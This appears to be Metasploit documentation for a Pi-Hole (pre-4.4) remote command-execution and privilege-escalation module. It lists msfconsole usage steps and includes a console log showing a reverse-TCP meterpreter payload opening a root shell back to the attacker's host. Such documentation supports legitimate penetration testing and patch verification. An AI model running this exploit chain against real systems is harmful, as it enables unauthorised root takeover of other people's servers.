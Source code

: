 ## Vulnerable Application

This exploits a command execution in Pi-Hole < 4.4.  A new blocklist is added, and then an
update is forced (gravity) to pull in the blocklist content.  PHP content is then written
to a file within the webroot.

Phase 1 writes a sudo pihole command to launch teleporter, effectively running a priv esc.

Phase 2 writes our payload to `teleporter.php`, overwriting, the content.

Lastly, the phase 1 PHP file is called in the web root, which launches
our payload in `teleporter.php` with root privileges.

A more detailed writeup is available from the [original author](https://frichetten.com/blog/cve-2020-11108-pihole-rce/).

Due to encodings, a local web server is required to be running on port `80`.

Two blocklist is left within Pi-Hole and should be removed.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_blocklist_exec```
  4. Do: ```set srvhost [IP]```
  5. Do: ```set rhost [IP]```
  6. Do: ```run```
  7. You should get a root shell.

## Options

## Scenarios

### Pi-Hole 4.3.2 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf5 exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.3.2
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=45abdcp4rsc9bpi9tchi88ejnn;
  [*] Using token: WzmrFbksWxIbtuSVeyrf8yv9o541UdhueLN+BRXfUmY=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:57982) at 2020-05-12 22:30:38 -0400
  [+] Deleted cdJWzln.php
  [*] Server stopped.
  
  msf5 exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64
  Meterpreter : php/linux
  ```
